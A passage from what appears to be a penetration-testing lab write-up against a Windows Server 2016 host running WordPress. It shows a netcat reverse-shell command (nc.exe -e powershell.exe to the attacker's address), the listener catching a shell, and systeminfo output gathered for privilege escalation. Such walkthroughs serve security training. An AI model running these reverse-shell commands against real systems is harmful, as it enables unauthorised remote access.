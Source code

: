 And finally, make a connection back to the attacker's machine:

```none
cmd=nc.exe -e powershell.exe 10.10.14.51 9001
```

At this point, we could have used `cmd.exe` as well - but it makes sense to use PowerShell for flexibility. Also, make sure to URL encode the payload in Burp. This web server is picky. And... Success!

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.51] from (UNKNOWN) [10.10.10.29] 54745
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot\wordpress\wp-content\themes\twentynineteen> whoami
whoami
nt authority\iusr
```

## Privesc Enumeration

At this stage, I always know what sort of system we are dealing with. The `systeminfo` command provides some useful information, and revealed that we had a Windows Server 2016 target.

```none
C:\inetpub\wwwroot\wordpress\wp-content\themes\twentyseventeen>systeminfo
systeminfo

Host Name:                 SHIELD
OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00376-30000-00299-AA303
Original Install Date:     2/4/2020, 12:58:01 PM
System Boot Time:          7/11/2021, 3:31:53 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.13989454.B64.1906190538, 6/19/2019
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,082 MB
Virtual Memory: Max Size:  2,431 MB
Virtual Memory: Available: 1,418 MB
Virtual Memory: In Use:    1,013 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    MEGACORP.LOCAL
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
```